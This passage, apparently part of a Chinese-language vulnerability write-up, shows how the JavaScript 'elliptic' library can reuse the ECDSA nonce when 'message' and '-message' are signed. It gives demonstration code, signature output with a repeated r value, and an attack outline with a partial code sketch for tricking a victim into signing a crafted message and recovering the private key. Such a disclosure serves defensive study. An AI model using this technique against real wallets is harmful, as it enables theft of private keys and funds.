 ```
const sig1 = prettyprint(ec.sign(msg1, privateKey));
const sig2 = prettyprint(ec.sign(msg2, privateKey));

console.log('签名结果:');
console.log('sig1:', sig1);
console.log('sig2:', sig2);
```



运行输出：



```
原始消息:
msg1: message
msg2: -message
签名结果:
sig1: r: 104603683070405608893121994772569954579668786354993804047147606840356574004233, s: 45238971282208969875952227936984289798913868693111844367904834409773355688280
sig2: r: 104603683070405608893121994772569954579668786354993804047147606840356574004233, s: 33413981207006126473424310277806110366155448264152524923855174498663885342744
```



msg1 = "message" 和 msg2 = "-message" 经过 BN 转换后，生成了相同的 nonce（elliptic 的设计接受十六进制字符串作为可能的输入类型之一）。由于 nonce 相同，导致 HMAC_DRBG 生成的 k 也相同。从签名结果中可以看到，r 值完全相同，这正是 k 复用的直接表现。



完整攻击流程：



\1. 模拟受害者签名一条正常的消息，获取消息 msg0 和签名 sig0。

\2. 攻击者构造恶意消息 msg1，并诱导受害者进行签名，获得 sig1。

\3. 利用 k 复用漏洞，从 (r, s1) 和 (r, s2) 计算 k。

\4. 利用 k 进一步计算出私钥 d，攻击成功。



代码示例：

```
const elliptic = require('elliptic');
const BN = require('bn.js');
const keccak256 = require('keccak256');

const { ec: EC } = elliptic

const curve = 'secp256k1' // or any other curve, e.g. ed25519
const ec = new EC(curve)
const privateKey = crypto.getRandomValues(new Uint8Array(32))  // 随机私钥

// 模拟受害者签署一笔正常的交易消息
const message = "Example `personal_sign` message";
const msg0 = createEthereumSignatureMessage(message);
const sig0 = ec.sign(msg0, privateKey);

// 构造恶意消息
const msg1 = Maliciousmsg(msg0);

// 模拟受害者签署恶意消息
const sig1 = ec.sign(msg1, privateKey);

// 利用数学计算提取签名
const Fake_privateKey = extract(msg0, sig0, sig1, curve)

```